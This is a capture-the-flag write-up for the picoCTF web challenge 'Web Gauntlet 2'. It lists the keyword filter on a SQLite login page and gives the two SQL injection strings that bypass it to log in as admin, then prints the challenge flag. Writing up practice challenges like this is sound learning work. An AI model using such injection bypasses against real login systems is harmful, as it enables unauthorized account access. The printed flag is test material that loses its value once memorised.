




# Web Gauntlet 2
### Points: 170

## Category
#### Web Exploitation

## Question
#### This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:65261/ Filter: http://mercury.picoctf.net:65261/filter.php
### Hint
>#### 1. I tried to make it a little bit less contrived since the mini competition.
>#### 2. Each filter is separated by a space. Spaces are not filtered.
>#### 3. There is only 1 round this time, when you beat it the flag will be in filter.php.
>#### 4. There is a length component now.
>#### 5. sqlite
 
## Solution
### Look at this website



#### This login Page Filters:  `page or and true false union like = > < ; -- /* */ admin` 
#### Bypass filter: 
```base
Username = ad' || 'min
Password = ' | '' IS NOT '
```

#### After logging in, navigate to `filter.php` and retrieve the flag. 


## Flag
`picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`